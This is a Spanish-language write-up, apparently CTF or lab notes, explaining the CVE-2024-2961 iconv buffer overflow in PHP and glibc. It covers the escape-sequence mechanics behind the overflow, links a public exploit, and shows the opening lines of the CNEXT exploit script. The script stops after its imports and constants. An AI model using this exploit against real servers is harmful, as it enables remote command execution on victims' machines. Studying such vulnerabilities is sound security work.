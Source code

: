 ### Understanding Overflow

Podremos modificar una función en la memoria para que, en lugar de su comportamiento normal, llame a `system()`. Esto nos permitirá ejecutar comandos arbitrarios en la máquina víctima

- Este encoding usa códigos especiales (ej: `\x1b$)A`) para alternar entre **ASCII** y **GB2312** (caracteres chinos de 2 bytes)

- **Cada cambio consume bytes adicionales**:
    - `\x1b$)A` → 4 bytes (entra en modo GB2312)
    - `\x1b$)B` → 4 bytes (vuelve a ASCII)

- Si el sistema no valida el tamaño real tras interpretar estas secuencias, se puede acontecer el BoF
- Caracteres como `劄` o `湿` **fuerzan al sistema a generar secuencias de escape automáticamente** al ser procesados, por ejemplo:

~~~ bash
"湿" → Se interpreta como `\x1b$)A` + `\x{bytes del carácter}` + `\x1b$)B`.
~~~

- Esto aumenta el tamaño real de la cadena en memoria, facilitando el desborde

### PoC Script

Podemos usar el siguiente exploit modificado para explotar el Buffer Overflow en este contexto. El exploit original lo puedes encontrar en el siguiente enlace

- https://github.com/suce0155/CVE-2024-2961_buddyforms_2.7.7

~~~ python
#!/usr/bin/env python3
#
# CNEXT: PHP file-read to RCE (CVE-2024-2961)
# Date: 2024-05-27
# Author: Charles FOL @cfreal_ (LEXFO/AMBIONICS)
#
# TODO Parse LIBC to know if patched
#
# INFORMATIONS
#
# To use, implement the Remote class, which tells the exploit how to send the payload.
#

from __future__ import annotations

import base64
import urllib.parse
import zlib
import urllib

from dataclasses import dataclass
from requests.exceptions import ConnectionError, ChunkedEncodingError

from pwn import *
from ten import *

HEAP_SIZE = 2 * 1024 * 1024
BUG = "劄".encode("utf-8")

~~~